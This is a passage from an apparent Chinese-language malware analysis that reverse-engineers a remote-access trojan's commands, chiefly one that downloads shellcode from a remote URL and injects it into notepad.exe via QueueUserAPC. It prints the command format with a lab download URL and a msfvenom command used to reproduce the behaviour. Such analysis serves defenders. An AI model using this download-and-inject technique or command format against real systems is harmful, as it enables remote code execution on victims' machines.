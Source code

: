 梳理shpjduhjenume远控指令的命令格式如下：  
```
shpjduhjenume

```  
  
远控功能复现情况如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCOsOib8gB6vJHyKg6IG4JYb6CY2NEMfbNHaDNLyAY1snXD8p0V2FVVNQ/640?wx_fmt=png&from=appmsg "")  
  
相关解密后通信数据包截图如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCRq2ZPflYYD5ibwhp0vdsFmomvTITX91AQWB2wU2R5Qicm6DoWClJZOLA/640?wx_fmt=png&from=appmsg "")  
  
相关代码截图如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUC88LVqEXSoicPtzO8W1jbuGGYia5W3dodgcsCoNsKZK05ZfRZhXeR0ezA/640?wx_fmt=png&from=appmsg "")  
### midhenhhmidfds  
  
通过分析，发现midhenhhmidfds远控指令功能为使用shellcode执行指定功能，执行逻辑如下：  
- 外链下载shellcode并通过QueueUserAPC注入notepad.exe执行；  
  
- 休眠10秒；  
  
- 执行结果将存放于C:\Windows\Tasks\BackgroundUsingMIMI.tmp文件中；  
  
- 返回BackgroundUsingMIMI.tmp文件内容；  
  
- 删除BackgroundUsingMIMI.tmp文件；  
  
梳理midhenhhmidfds远控指令的命令格式如下：  
```
midhenhhmidfds|https://192.168.65.1/shellcode

```  
  
为了能够完整复现shellcode功能，笔者使用msf生成可执行任意命令的shellcode载荷，msf命令如下：  
```
msfvenom -p windows/x64/exec CMD="cmd.exe /c echo 'Hello, World' > C:\Windows\Tasks\BackgroundUsingMIMI.tmp" -f hex

```  
  
远控功能复现情况如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUC6xAYzHyibzQReOKkZPIsMpxLZzIXchs2e9N3Niciajh1u6WOZrRmgMFBA/640?wx_fmt=png&from=appmsg "")  
  
相关解密后通信数据包截图如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCk12xCOSNpA2Oiagsa2BFLNIQhFGEJPKTpctGJ2q44bZhzEhWcNeOKHw/640?wx_fmt=png&from=appmsg "")  
  
相关代码截图如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCSQ0rK55Pr2rqTlbIkmL5tAXtpXmlWKXjVoy45ztugB32jutllH9pqQ/640?wx_fmt=png&from=appmsg "")  
### semnbhdndfenum  
  
